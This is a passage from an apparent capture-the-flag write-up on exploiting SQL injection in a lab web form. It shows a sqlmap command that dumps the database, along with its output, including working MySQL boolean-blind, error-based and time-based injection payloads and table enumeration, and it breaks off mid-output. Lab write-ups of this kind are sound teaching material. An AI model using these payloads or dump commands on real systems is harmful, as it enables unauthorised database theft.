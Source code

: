    [*] ending @ 09:18:50 /2021-01-20/
    ```

- How many types of sqli is the site vulnerable to?
> 4.
- Dump the database.

    ```bash
    $ sqlmap -u http://10.10.47.32 --forms --dump                                                                                                 130 ⨯
            ___
        __H__                                                                                                                                          
    ___ ___["]_____ ___ ___  {1.5#stable}                                                                                                                
    |_ -| . [(]     | .'| . |                                                                                                                             
    |___|_  [,]_|_|_|__,|  _|                                                                                                                             
        |_|V...       |_|   http://sqlmap.org                                                                                                           

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting @ 09:24:17 /2021-01-20/

    [09:24:17] [INFO] testing connection to the target URL
    [09:24:17] [INFO] searching for forms
    [#1] form:
    POST http://10.10.47.32/
    POST data: msg=
    do you want to test this form? [Y/n/q] 
    > 
    Edit POST data [default: msg=] (Warning: blank fields detected): 
    do you want to fill blank fields with random values? [Y/n] 
    [09:24:20] [INFO] resuming back-end DBMS 'mysql' 
    [09:24:20] [INFO] using '/home/kali/.local/share/sqlmap/output/results-01202021_0924am.csv' as the CSV results file in multiple targets mode
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: msg (POST)
        Type: boolean-based blind
        Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
        Payload: msg=iWAT' RLIKE (SELECT (CASE WHEN (5588=5588) THEN 0x69574154 ELSE 0x28 END))-- nVFb

        Type: error-based
        Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
        Payload: msg=iWAT' AND GTID_SUBSET(CONCAT(0x7170717171,(SELECT (ELT(4598=4598,1))),0x717a627671),4598)-- GDBH

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: msg=iWAT' AND (SELECT 3128 FROM (SELECT(SLEEP(5)))SSGL)-- UPpI
    ---
    do you want to exploit this SQL injection? [Y/n] 
    [09:24:21] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.6
    [09:24:21] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
    [09:24:21] [INFO] fetching current database
    [09:24:21] [WARNING] reflective value(s) found and filtering out
    [09:24:21] [INFO] retrieved: 'tests'
    [09:24:21] [INFO] fetching tables for database: 'tests'
    [09:24:21] [INFO] retrieved: 'lol'
    [09:24:22] [INFO] retrieved: 'msg'
    [09:24:22] [INFO] fetching columns for table 'msg' in database 'tests'
    [09:24:22] [INFO] retrieved: 'msg'